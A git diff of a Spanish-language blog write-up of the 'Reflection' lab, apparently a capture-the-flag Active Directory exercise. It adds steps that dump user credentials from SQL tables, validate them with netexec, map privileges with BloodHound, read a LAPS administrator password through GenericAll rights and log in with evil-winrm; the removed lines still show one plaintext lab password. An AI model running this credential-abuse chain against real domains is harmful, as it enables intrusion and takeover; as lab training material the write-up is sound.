

parte 1

diff --git a/_posts/2024-08-14-Reflection.md b/_posts/2024-08-14-Reflection.md
@@ -193,7 +193,7 @@ SQL (web_staging  guest@master)>
 ```
 
 
-Listamos las bases de datos, luego elejimos la bd staging, listamos las tablas y listamos los usuarios.
+Listamos las bases de datos, luego elejimos la bd staging, listamos las tablas y luego los datos de la tabla users.
 
 
 ```bash
@@ -318,9 +318,85 @@ $ proxychains -q smbclient \\\\10.10.191.5\\prod -U reflection/svc_web_staging
 ![](/assets/images/Reflection/reflection-smb3.png)
 
 
-user=web_prod
-password=Tribesman201
-db=prod
+user=web_prod  
+password=Trib********  
+db=prod  
+
+
+
+Al igual que hemos hecho antes, listamos las bases de datos, luego las tablas y luego los datos de la tabla users. Y obtenemos nuevas credenciales.
+
+
+
+
+![](/assets/images/Reflection/reflection-sql3.png)
+
+
+abbie.smith:CMe1x*********  
+dorothy.rose:hC_fny3*******  
+
+
+Con netexec comprobamos que las credenciales son válidas.
+
+
+```bash
+$ nxc smb 10.10.149.149-151 -u 'abbie.smith' -p 'CMe1x*********'
+```
+
+```bash
+nxc smb 10.10.149.149-151 -u 'dorothy.rose' -p 'hC_fny3*******'
+```
+
+![](/assets/images/Reflection/reflection-nxc2.png)
+
+
+Ya podemos utilizar bloodhound para buscar vulnerabilidades utilizando estas credenciales.
+
+
+```bash
+$ bloodhound.py --zip -c All -d "reflection.vl" -u "abbie.smith" -p "CMe1x*********" -dc "dc01.reflection.vl" -ns 10.10.149.149
+```
+
+
+Y vemos con bloodhound que el usuario abbie.smith tiene permisos de GenericAll sobre la máquina MS01.
+
+
+![](/assets/images/Reflection/reflection-bh.png)
+
+
+Bloodhound nos sugiere utilizar el ataque Resource Based Constrined Delegation, pero vemos que el machine account quota está a cero, con lo cual no vamos a poder crear ninguna cuenta de máquina con nuestro usuario.
+
+
+![](/assets/images/Reflection/reflection-bh2.png)
+
+
+![](/assets/images/Reflection/reflection-maq.png)
+
+
+Enumerando el dominio con bloodhound busco por LAPS para ver si está implementado en la máquina y veo que si. Y como tenemos permisos de GenericAll podemos ver la contraseña, con nxc por ejemplo.
+
+
+```bash
+nxc ldap 10.10.149.149 -u 'abbie.smith' -p 'CMe1x*********' -M laps
+```
+
+
+![](/assets/images/Reflection/reflection-laps.png)
+
+![](/assets/images/Reflection/reflection-laps2.png)
+
+
+Ya podemos conectarnos con evil-winrm y leer la primera flag.
+
+
+```bash
+evil-winrm -u "Administrator" -p "H447.*********" -i "10.10.149.150"
+```
+
+
+```powershell
+cat "C:/Users/Administrator/Desktop/flag.txt"
+```
 
 
 
